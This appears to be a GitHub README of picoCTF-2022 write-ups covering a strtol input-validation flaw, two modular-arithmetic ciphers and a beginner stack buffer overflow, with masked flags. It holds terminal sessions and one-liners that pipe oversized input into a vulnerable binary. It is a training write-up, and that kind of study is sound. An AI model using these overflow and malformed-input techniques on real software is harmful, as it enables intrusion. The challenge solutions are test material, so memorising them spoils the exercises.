 
# picoCTF-2022
### Hi there, and Welcome to my picoCTF-2022 progress and writeups

**Total Chalennges : 65**
✔️Solved: 51
❌Unsolved : 14 
(completed 72.5%)

**Team rank: 677 from 7794 (Top 8%)**

![image](https://user-images.githubusercontent.com/62214984/163713181-4492b90e-03a6-476b-a968-f44da82bb5ed.png)

## The provided here flags are not genuine PicoCTF flags

<details>
  <summary><h2> 1. basic-file-exploit | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
	The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! <br/>
	<s>Connect to the program with netcat:</s><br/> 
	<s>$ nc saturn.picoctf.net 49000</s><br/>
	"<i>Use <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.out><code>1.basic-file-exploit.out</code></a> instead</i>"<br/>
	The program's source code with the flag redacted can be downloaded <a href=https://github.com/LogicBypass/CTF-s/blob/main/picoCTF-2022/1.basic-file-exploit/1.basic-file-exploit.c>here.</a> <br/>
	<br/>
  
  > Hint: Try passing in things the program doesn't expect. Like a string instead of a number.
  ----
  <h3>Reconnaissance:</h3>
	Download the files: <code>wget link-to-file</code><br/> 
	Make it exacutable:<code>chmod +x *</code><br/>
	Open the program's source code file and analyze the flag retrieving function:<br/>
<pre>
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
	puts(flag);
	fseek(stdin, 0, SEEK_END);
	exit(0);
}
</pre>
	<br/>
	Now we need to manipulate the input to get the function result == 0 </br>
  <hr>
  <h3>Exploitation:</h3>
	At the first run, let's try to use it as intended</br>
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
1
Logic Bypass
Read successful, would you like to do anything else?
Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Now let's try to insert "0" into different fields:<br/>
	First try:
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
0
Please enter the length of your data:
0
Please put in a valid length		#Not allowed to insert 0
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Read our entry
Please enter the entry number of your data:
1
0
Read successful, would you like to do anything else?

Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
</pre>
<br/>
	Nothing interesting</br>
	Second try, the valid input but try to read the "0" entry number
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
0
picoCTF{#########################}
</pre>
Hooray! We have a flag!
<br/>
We also can get the flag by "Trying passing strings instead of number" as mentioned in "Hint"<br/>
This works because of "strtol() function error" that says: In case no conversion was performed (no digits seen, and 0 returned)
<pre>
└─$ ./1.basic-file-exploit.out
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
Logic Bypass
Please enter the length of your data:
12
Your entry number is: 1
Write successful, would you like to do anything else?
2                                                      #Switch to Read entry
Please enter the entry number of your data:
A
picoCTF{#########################}
</pre>
Hooray! We have a flag!
</details>

---

<details>
  <summary><h2> 2. basic-mod1 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
	We found this weird message being passed around on the servers, we think we have a working decryption scheme.<br/>
	<br/>
	Message:<br/> 
	<i> 202 137 390 235 114 369 198 110 350 396 390 383 225 258 38 291 75 324 401 142 288 397 </i><br/>
	<br/>
	Take each number mod 37 and map it to the following character set:<br/>
	0-25 is the alphabet (uppercase)<br/>
	26-35 are the decimal digits<br/>
	36 is an underscore<br/>
	Wrap your decrypted message in the picoCTF flag format<br/>
	<br/>
  
  > Hint1: Do you know what mod 37 means?
	
  > Hint2: mod 37 means modulo 37. It gives the remainder of a number after being divided by 37.

  ----
  <h3>Reconnaissance and Exploitation:</h3>
	Go to <a href="https://www.dcode.fr/cipher-identifier">Chipher Identifier</a> to find a Modulo Cipher decoder.<br/>
	Open <a href="https://www.dcode.fr/modulo-cipher">Modulo Cipher</a> from results, change modulo nr to 37 and insert the Message.<br/>
	Take the output and using <a href="https://www.dcode.fr/substitution-cipher">Substitution Cipher</a> and map it to the character set from the description:<br/>
	<pre>
	0-25 is the alphabet (uppercase).
	26-35 are the decimal digits.
	36 is an underscore.</pre>
	Wrap your decrypted message in the picoCTF flag format<br/>

	picoCTF{R****_N_*0***_********}
Hooray! We have a flag!
</details>

---

<details>
  <summary><h2> 3. basic-mod2 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
  A new modular challenge!<br/>
  Message:<br/> 
  <i> 186 249 356 395 303 337 190 393 146 174 446 127 385 400 420 226 76 294 144 90 291 445 137 </i><br/>
	<br/>
  Take each number mod 41 and find the modular inverse for the result. Then map to the following character set:<br/>
  1-26 are the alphabet<br/>
  27-36 are the decimal digits<br/>
  37 is an underscore<br/>
	<br/>
  Wrap your decrypted message in the picoCTF flag format (i.e. picoCTF{decrypted_message})<br/>
  <br/>
    
  > Hint1: Do you know what the modular inverse is?<br/>
  > Hint2: The inverse modulo z of x is the number, y that when multiplied by x is 1 modulo z.<br/>
  > Hint3: It's recommended to use a tool to find the modular inverses.<br/>


  ----
  <h3>Exploitation:</h3>
  
  Go to <a href="https://www.dcode.fr/cipher-identifier">Chipher Identifier</a> to find a Modular Inverse decoder.<br/>
  Open <a href="https://www.dcode.fr/modular-inverse">Modular Inverse</a> from results, change modulo nr to 41 and insert the Message one by one.<br/>
  Take the output and using <a href="https://www.dcode.fr/substitution-cipher">Substitution Cipher</a> and map it to the character set from the description:<br/>

    <pre>
    0-25 is the alphabet (uppercase).
    26-35 are the decimal digits.
    36 is an underscore.</pre>
  Wrap your decrypted message in the picoCTF flag format<br/>

    picoCTF{1*V3R*3L*_H4*D_B7*B9*79}
Hooray! We have a flag!
</details>

---

<details>
  <summary><h2> 4. buffer overflow 0 | 100 points ✔️ </h2></summary>
  <h3>Description:</h3>
  Smash the stack<br/>
  Let's start off simple, can you overflow the correct buffer?<br/> 
	<br/>
  The program is available <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/4.buffer-overflow-0/vuln>here.</a> <br/>
  You can view source <a href=https://github.com/LogicBypass/CTF-s/raw/main/picoCTF-2022/4.buffer-overflow-0/vuln.c>here.</a> .<br/>
<br/>

    
  > Hint1: How can you trigger the flag to print?<br/>
  > Hint2: If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.<br/>
  > Hint3: Run <code>man gets</code> and read the BUGS section. How many characters can the program really read?<br/>


  ----
  <h3>Reconnaissance:</h3>
  Download the files: <code>wget link-to-file</code><br/> 
  Make it exacutable:<code>chmod +x *</code><br/>
  Open the program's source code file and analyze it<br/>
  Run <code>man gets</code> and read the BUGS section.<br/>


  <h3>Exploitation:</h3>
  Option 1:<br/>
    <code>python -c 'from pwn import *;print(cyclic(60))' | ./vuln </code><br/>
  Option 2:<br/>
    <code>python -c 'print ("a"*100)' | ./vuln </code><br/>
  Option 3:<br/>
  <i>Python not always works as buffer overflow input, so it's a good habbit to have an alternative:</i><br/>
    <code>(echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n"; cat) | ./vuln </code><br/>
<br/>
  <code>picoCTF{************}</code><br/>
Hooray! We have a flag!<br/>
</details>

---

 Checkmarks:
✔️
❌


